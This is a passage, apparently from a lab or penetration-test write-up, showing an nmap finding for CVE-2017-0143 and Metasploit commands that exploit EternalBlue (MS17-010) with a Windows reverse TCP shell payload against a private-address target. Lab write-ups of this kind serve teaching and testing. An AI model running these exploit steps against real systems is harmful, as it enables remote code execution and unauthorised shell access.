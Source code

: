 ```
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
```
Based on this nmap result, this target is vulnerable to the EternalBlue exploit (MS17-010). This is a critical RCE vulnerability affecting SMBv1.
###### Exploitation
```
$ msfconsole
search ms17-010
use 0
```

<img src="images/metasploit1.png" width="500">

```
set payload windows/x64/shell/reverse_tcp
show options
set RHOST 10.0.0.1
SET LHOST 10.0.0.2
exploit
```

<img src="images/metasploit2.png" width="500">
